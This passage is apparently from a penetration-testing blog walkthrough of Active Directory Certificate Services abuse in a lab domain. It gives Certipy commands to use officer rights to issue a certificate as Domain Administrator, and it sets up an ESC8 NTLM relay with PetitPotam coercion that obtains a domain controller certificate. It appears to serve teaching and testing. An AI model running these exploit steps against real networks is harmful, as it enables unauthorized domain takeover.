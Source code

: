 Then request a certificate as the Domain Administrator, this request will be denied, but we'll issue the request later using our officer permissions:

```
certipy req -u attacker -p 'P@ssw0rd' -ca 'lab-DC-CA' -target 192.168.1.2 -template SubCA -upn administrator@lab.lan
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e8a0d161-f9c4-4d85-9c8d-a133fbe2c96e)

Next issue the requested certificate, use the request number from the previous command:

```
certipy ca -ca 'lab-DC-CA' -issue-request 14 -username attacker -password 'P@ssw0rd' -dc-ip 192.168.1.2
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/6909096d-a525-42bc-9ed6-e6a08d3dbffc)

Finally, now that the request had been issued, we can request the certificate as the Domain Administrator

```
certipy req -u attacker -p 'P@ssw0rd' -ca 'lab-DC-CA' -target 192.168.1.2 -retrieve 14
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/83977ac8-5ab6-4c32-bdf3-c9660532393f)

<br />

### Exploitation of ESC8

The identification of where the web enrollment service is located on the Domain is the most important factor in discovering if the Domain is vulnerable to ESC8. Remember, an NTLM relay attack cannot be performed where the device authenticating and the target device are the same, requiring the web enrollment endpoint to be located somewhere other than the Domain Controller.

Utilize Certipy to preform an NTLM relay attack against the web enrollment endpoint.

First initialize the NTLM relay:

```
certipy relay -target 192.168.1.3 -template DomainController
```

Then finally coerce authentication from the Domain Controller to the attacker host, this can be done through a multitude of options, including tools like [PetitPotam](https://github.com/ly4k/PetitPotam).

```
python3 PetitPotam.py 192.168.1.50 192.168.1.2 -u attacker -p 'P@ssw0rd'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/5891d28b-9a93-46a8-b0dc-26af2046010f)

Here I've requested a certificate as the Domain Controller machine account which can be utilized to gain control of the Domain Controller.

<br />
